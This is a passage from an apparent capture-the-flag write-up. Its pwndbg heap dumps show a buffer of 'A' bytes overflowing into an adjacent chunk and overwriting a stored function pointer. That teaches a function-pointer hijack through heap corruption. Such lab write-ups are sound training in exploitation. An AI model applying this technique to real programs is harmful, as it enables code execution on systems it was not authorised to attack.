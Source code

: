 ```
0x804a1e8       0x00000000      0x00000011      ........
0x804a1f0       0x00000000      0x00000000      ........
0x804a1f8       0x00000000      0x00021e09      ........         <-- Top chunk
```

Now we see that the second malloc is allocated too. Let’s hit the third breakpoint to check that the address of the m function is passed into the second malloc.

```
pwndbg> c                                                                                                                                                                                   
Continuing.                                                                                                                                                                         
Breakpoint 4, 0x080484c2 in main ()
pwndbg> vis
0x804a198       0x00000000      0x00000051      ....Q...
0x804a1a0       0x00000000      0x00000000      ........
0x804a1a8       0x00000000      0x00000000      ........
0x804a1b0       0x00000000      0x00000000      ........
0x804a1b8       0x00000000      0x00000000      ........
0x804a1c0       0x00000000      0x00000000      ........
0x804a1c8       0x00000000      0x00000000      ........
0x804a1d0       0x00000000      0x00000000      ........
0x804a1d8       0x00000000      0x00000000      ........
0x804a1e0       0x00000000      0x00000000      ........
0x804a1e8       0x00000000      0x00000011      ........
0x804a1f0       0x08048468      0x00000000      h.......
0x804a1f8       0x00000000      0x00021e09      ........         <-- Top chunk

```

And lastly, let’s check what happened after the overflow occurred.

```
pwndbg> c
Continuing.
Breakpoint 5, 0x080484ca in main ()
pwndbg> vis
0x804a198       0x00000000      0x00000051      ....Q...
0x804a1a0       0x41414141      0x41414141      AAAAAAAA 
0x804a1a8       0x41414141      0x41414141      AAAAAAAA  
0x804a1b0       0x41414141      0x41414141      AAAAAAAA 
0x804a1b8       0x41414141      0x41414141      AAAAAAAA 
0x804a1c0       0x41414141      0x41414141      AAAAAAAA 
0x804a1c8       0x41414141      0x41414141      AAAAAAAA 
0x804a1d0       0x41414141      0x41414141      AAAAAAAA 
0x804a1d8       0x41414141      0x41414141      AAAAAAAA
0x804a1e0       0x41414141      0x41414141      AAAAAAAA
0x804a1e8       0x41414141      0x41414141      AAAAAAAA 
0x804a1f0       0x08048454      0x00000000      T.......  
0x804a1f8       0x00000000      0x00021e09      ........         <-- Top chunk   
```
